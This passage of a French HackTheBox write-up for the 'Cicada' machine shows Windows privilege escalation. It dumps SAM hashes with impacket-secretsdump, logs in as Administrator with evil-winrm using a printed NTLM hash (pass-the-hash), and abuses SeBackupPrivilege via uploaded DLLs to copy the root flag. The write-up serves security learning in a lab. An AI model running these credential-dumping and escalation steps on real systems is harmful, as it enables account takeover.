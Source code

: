 ![Registry files download](/images/HTB-Cicada/dl_files.png)

Sur notre machine locale, nous récupérons le hash de l'administrateur avec impacket.

```
impacket-secretsdump -sam sam -system system local
```

![impacket hash dump](/images/HTB-Cicada/hash_dump.png)

> `pypykatz` peut aussi être utilisé pour extraire les hashs avec la commande `pypykatz registry --sam sam system`.

Nous pouvons maintenant nous connecter en tant qu'administrateur et lire le drapeau root.

```
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![Administrator login via EvilWinRM](/images/HTB-Cicada/root_flag.png)

### Attaque Locale

Nous pouvons également utiliser la méthode présentée [ici](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html#backup-operators). Vous devrez aller sur [ce repo Github](https://github.com/giuliano108/SeBackupPrivilege) pour obtenir `SeBackupPrivilegeUtils.dll` et `SeBackupPrivilegeCmdLets.dll`.

1. Après avoir cloné le repo, nous transférons les fichiers vers la cible via notre shell evil-winrm.

```
upload /home/kscorpio/Machines/HTB/Cicada//SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll

upload /home/kscorpio/Machines/HTB/Cicada//SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```

![SeBackup files](/images/HTB-Cicada/SeBackup_files.png)

2. Nous importons les bibliothèques

```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

![Modules Import](/images/HTB-Cicada/Modules_Import.png)

3. Enfin, nous copions le drapeau root

```
Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt C:\Users\emily.oscars.CICADA\Documents\root.txt
```

![root flag copied](/images/HTB-Cicada/copy_root_flag.png)
